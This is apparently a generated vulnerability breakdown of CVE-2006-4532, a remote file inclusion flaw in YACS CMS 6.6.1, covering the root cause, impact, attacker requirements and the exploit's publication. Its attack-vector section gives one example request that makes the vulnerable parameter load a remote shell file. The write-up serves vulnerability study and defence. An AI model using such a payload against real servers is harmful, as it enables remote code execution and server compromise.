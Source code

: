 Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-4532 (Note: The exploit-db entry lists both CVE-2006-4559 and CVE-2006-4532)

**Root Cause of Vulnerability:**
- The vulnerability is a Remote File Inclusion (RFI) issue.
- The `context[path_to_root]` parameter within the `article.php` file is vulnerable.
- The application doesn't properly sanitize or validate the value passed to the `context[path_to_root]` parameter, allowing an attacker to include remote files.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include and execute remote files.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP file, an attacker can execute arbitrary code on the server. This could lead to complete system compromise, data theft, defacement, and other malicious activities.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability is exploited by crafting a malicious HTTP GET request with a `context[path_to_root]` parameter that points to a remote malicious file.
   - Example: `http://[target]/[patch]/yacs/articles/article.php?context[path_to_root]=http://url--ataca.org/shell.txt?`

**Required Attacker Capabilities/Position:**
- **Remote Access:** The attacker needs to be able to send HTTP requests to the vulnerable application.
- **Malicious File Hosting:** The attacker needs a location to host a malicious file (e.g., a PHP shell).
- **Knowledge of Vulnerable Parameter:** The attacker needs to know the vulnerable parameter (`context[path_to_root]`).

**Additional Information:**
- The vulnerable application is YACS CMS (Yet Another Community System), specifically version 6.6.1, and possibly all other versions.
- The exploit was published by 'MATASANOS' from 'LATIN AMERICAN DEFACERS' on August 31, 2006.
- The exploit is considered highly critical ('muy critico').
- The exploit-db entry references a related CVE, CVE-2006-4559, indicating a possible connection or overlap between these vulnerabilities in the same application.